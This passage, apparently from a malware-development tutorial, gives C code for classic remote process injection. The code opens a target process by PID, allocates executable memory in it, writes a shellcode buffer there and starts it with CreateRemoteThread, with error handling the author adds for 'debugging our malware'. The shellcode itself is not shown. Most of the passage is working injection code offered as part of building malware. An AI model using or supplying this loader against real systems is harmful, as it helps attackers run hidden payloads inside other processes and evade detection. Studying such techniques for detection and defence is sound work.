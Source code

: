 We can have a basic check accordingly to check the value of hProcess & print error message accordingly.  The [GetLastError](https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-getlasterror) function is really important while debugging our malware and we would be using this a lot.

Here's the main function with added Debugging Information & Error Handling.

```c
int main(int argc, char* argv[]) {
	
	if (argc < 2) {
		printf("[*] Usage: %s <PID> ", argv[0]);
		return 0;
	}
	
	DWORD		PID = NULL;
	PVOID		pAddress;
	HANDLE		hProcess = NULL,
		hThread = NULL;

	PID = atoi(argv[1]);
	printf("Getting Handle to the Process with PID: %d\n", PID);

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
	if (hProcess == NULL) {
		printf("[-] Error Getting Handle to the Process, Got: %d\n", GetLastError());
		return 1;
	}
	printf("[+] Opened Handle to the Process: %d\n", PID);
	
	pAddress = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
	if (pAddress == NULL) {
		printf("[-] Unable to Allocate Virtual Memory, Error: %d\n", GetLastError());
		return 1;
	}
	printf("[+] Allocated Virtual Memory   @--0x%p\n", pAddress);
	
	WriteProcessMemory(hProcess, pAddress, shellcode, sizeof(shellcode), 0);
	printf("[+] Wrote payload to the Process\n");
	
	hThread = CreateRemoteThread(hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL);
	if (hThread == NULL) {
		printf("[-] Unable to Create Remote thread, Error: %d\n", GetLastError());
		return 1;
	}
	printf("[#] Created Remote Thread!! \n");
	WaitForSingleObject(hThread, INFINITE);
	
	if (hThread) CloseHandle(hThread);
	if (hProcess) CloseHandle(hProcess);
	printf("[+] Cleaning finished... exiting...\n");
	
	return 0;
}
```
